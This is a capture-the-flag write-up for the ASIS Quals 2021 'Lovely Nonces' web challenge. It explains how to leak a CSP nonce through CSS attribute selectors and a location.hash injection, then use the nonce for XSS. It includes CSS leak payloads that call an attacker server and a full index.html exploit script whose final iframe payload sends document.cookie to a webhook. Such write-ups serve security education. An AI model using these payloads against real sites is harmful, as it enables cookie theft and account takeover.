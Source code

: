 ```yaml
---
layout: post
title: "[ASIS Quals 2021] Lovely Nonces"
author: Vie
---
```


Lovely Nonces is a challenge from ASIS Quals 2021, involving interesting CSP bypasses and stylesheet leaks. [Ming](https://ubcctf.github.io/authors/ming/) and I solved this challenge together. This writeup is the product of both of our work.

## TL;DR
CSS attribute selectors for a stylesheet leak of the CSP nonce combined with XSS.

## Recon

The CSP is implemented via a meta-tag in the DOM, and not through response header as is usually the common practise. It's just one directive, `script-src`, with the randomly generated nonce value, which we can try to retrieve.

```
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-$NONCE$'">
```

(Note: it is also possible to extract this nonce from the `script` tag on the same page)

The cookie is set to the localhost domain - which is important moving forward with our exploit (we won't be injecting our payloads on the lovelynonce domain, it'll be on localhost). 

```js
await page.setCookie({
			name: 'flag',
			value: process.env.FLAG || "flag{fake-flag}",
			domain: "localhost",
			expires: now() + 1000
		})
```

On the HTML of the page is a location.hash navigator that sets an element in the HTML to the value of whatever `document.location.hash` was. 

```
    <script nonce="$NONCE$">
    	document.location.hash = "";
    	window.onhashchange = ()=>{
    		if(document.location.hash) {
          		desc.innerHTML = decodeURIComponent(document.location.hash.slice(1));
				document.location.hash = "";
        	}
    	};
    </script>
```

Test this out by appending `#%3Cp%3Etest%3C%2Fp%3E` (just the URLencoded version of `#<p>test</p>`) to the challenge webpage and see how this code snippet works. This is an easy XSS vector, but obviously the CSP isn't letting us do something so trivial as `#<script>alert(1337)</script>`.

There's a report function that actually utilizes this browser-side JS to add a report form in the webpage. 

## Exploit in Detail 

The location hash is a potential XSS vector. You can copy-paste the webpage's nonce value into an iframe with the srcdoc attribute and achieve XSS. 

```
<iframe srcdoc="<script nonce=[THEIR_NONCE]>alert(1)</script>"></iframe>
```

This works because iframes loaded with `srcdoc` aren't cross-origin. BUT, this also won't work for the challenge as the server generates unique nonces for each request, meaning that our nonce won't be the same nonce that the admin has when they load up our webpage with our iframe payload. The CSP is technically doing it's job, and even with the copy-pasted nonce and srcdoc iframe, this is just a self-XSS for now. Ideally, we want to find out the nonce of the webpage when the admin visits - and while they're still on the webpage, load up our iframe payload with the correct nonce.

Nonces implemented via the meta-tag, or nonces within the script-tag can be leaked through CSS attribute selectors. Setting the hash to: 

```
<style>*{display:block}meta[content^="script-src nonce-a"]{background-image:url("http://our-server/result?nonce=a");}</style>
```

or

```
<style>script[nonce^="a"]{display:block;background:url("http://our-server/result?nonce=a");}</style>
```

will send a request to our server in the event that any element with the right attribute stuck to it has a value starting with `script-src nonce-a`. We can extrapolate this further to brute-force each character in the attribute value and use fetches to our server to extract the correct 'next character' of the nonce.

If the CSS attribute selector successfully finds a tag that matches the above conditions, then a request is fired to our server. Otherwise, no request is made to our server.

To change the hash, we have the admin open a window to the vulnerable page (localhost:8000), identified by a name (
`open("http://localhost:8000/", "thisOneWindow")`), and after that, we can have the admin open a window with the same url, but with a different hash, and the same name (
`open("http://localhost:8000/#aaaaa", "thisOneWindow")`). The browser has this page cached, and as a result, we will still be using the same page, just with a different location hash.


## The exploit flow
The attack flow is as follows: 

1. Admin visits our server, hosting an index.html that will load the challenge page.

2. Iterating through the alphanumeric charset, the injected style tag in the hash tests for each char if it is in the nonce - and if so, sends a request back to our server.

3. That request is processed by our Node backend, which pushes the correctly guessed character into an internal array.

4. The JS in index.html (the browser JS) sets a short timeout and then tries to retrieve the value in that internal array from the backend, updating the nonce value guessed so far and testing the next char in line. 

5. This process repeats from step 2 until the entire nonce is leaked.

6. With the full nonce, we set the iframe payload with the correct, complete nonce value that dumps cookies back to our server.

7. Flag! 

![flag](/assets/images/asisquals2021/asislovelynonceflag.png)


## Relevant sources
* [Bypassing Nonces with DOM XSS](http://sirdarckcat.blogspot.com/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)
	* Explains how to use CSS attribute selectors to get nonce.
* [Penetration Testing Window Opener](https://medium.com/tsscyber/penetration-testing-window-opener-xss-vectors-part-2-7810ebfccc1d)
	* Explains how to exploit `location.hash`.
* Robert's brain
	* Found a way to inject a script tag that executes immediately even after the page has loaded.

## The index.html page that we used

```
<script>
    const charset = "abcdefghijklmnopqrstuvwxyz0123456789"
    const length = 16 // static length
    const ngrokURL = "put-your-own-ngrok-tunnel-here"
    const url = "http://localhost:8000/"
    const win = open(url, "thisOneWindow"); // opens in another window
    function find_nonce(str) {
        setTimeout(function() {
            if (str.length >= 16) {
                const finalNonce = str;
                //owo
                let finalPayload = `%3Ciframe%20srcdoc%3D%22%3Cscript%20nonce%3D%24%7BfinalNonce%7D%3Efetch(%27your-webhook-url%3Fowoooooo%3D%27%2B(document.cookie))%3B%3C%2Fscript%3E%22%3E%3C%2Fiframe%3E` // URL-encoded-payload
                open(url + "#" + finalPayload, "thisOneWindow");
            } else {
                send_req_new(str); // set new hash
                do_the_thing(); // poll our server repeatedly for nonce discovered so far
            }
        }, 25)
    }

    function do_the_thing() {
        setTimeout(function() {
        fetch(ngrokURL + "/poll").then(resp => resp.text()).then(data => {
            if (!data.startsWith("No can do")) {
                return find_nonce(data); // repeat with newly discovered nonce
            } else {
                return do_the_thing(); // just repeat it lol
            }
        })
    }, 3)
    }

    function send_req_new(str) {
        setTimeout(function() {
            longPayload = ""
            for (char of charset) {
				// construct payload
                let payload = `script[nonce^="${str.toString() + char}"]{display:block;background:url("${ngrokURL}/result?nonce=${str.toString() + char}");}\r\n`
                longPayload += payload
            }
            longPayload = "<style>" + longPayload + "</style>"
            open(url + "#" + encodeURIComponent(longPayload), "thisOneWindow"); // set hash
        }, 0)
    }
    find_nonce(""); // start from here
</script>
```
